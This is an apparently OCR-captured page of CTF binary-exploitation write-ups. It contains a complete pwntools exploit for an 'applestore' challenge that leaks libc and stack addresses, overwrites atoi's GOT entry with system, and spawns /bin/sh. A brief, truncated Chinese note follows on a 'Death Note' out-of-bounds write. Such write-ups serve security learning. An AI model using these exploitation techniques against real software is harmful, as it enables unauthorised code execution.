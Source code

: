 ## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(idx=1):
	cmd(2)
	p.sendlineafter("ber> ",str(idx))
def show(c='y'):
	cmd(4)
	p.sendlineafter("n) > ",c)
def free(c):
	cmd(3)
	p.sendafter("ber> ",c)
def pay():
	cmd(5)
	p.sendlineafter("n) > ","y")
context.log_level='debug'		
atoi=0x804b040
p=process("./applestore")
for x in range(6):
	add()
for x in range(20):
	add(2)

pay()

free("27"+p32(atoi)+p64(0)*2+"\n")
p.readuntil("27:")
base=u32(p.read(4))-(0xf7e33250-0xf7e06000)
log.warning(hex(base))
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
libc.address=base


free("27"+p32(libc.symbols['environ'])+p64(0)*2+"\n")
p.readuntil("27:")
stack=u32(p.read(4))-(0xffffd0fc-0xfffdd000)
log.warning(hex(stack))
ebp=0xffffcff8-0xfffdd000+stack

#free("27"+p32(0x0804b000)+p32(0)+p32(0)+p32(0)+p32(0)+'\n')
free("27"+p32(0x0804b000)+p32(0xdeadbeef)+p32(ebp-12)+p32(atoi+0x22)+'\n')
cmd(p32(libc.symbols['system'])+";"+'/bin/sh;')
gdb.attach(p,'b * 0x8048A44')
p.interactive("nier >>>")
```



# Death Note
死亡笔记...记名字...名字不能是不可显示字符
主要的漏洞点是下标越界比较好看出来
```arm
if ( idx > 10 )
  {
    puts("Out of bound !!");
    exit(0);
  }
```
然后越界之后就可以任意地址写了但是只能写0x50bytes还有就是必须是可显示字符
```sh
➜  Desktop checksec death_note 
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert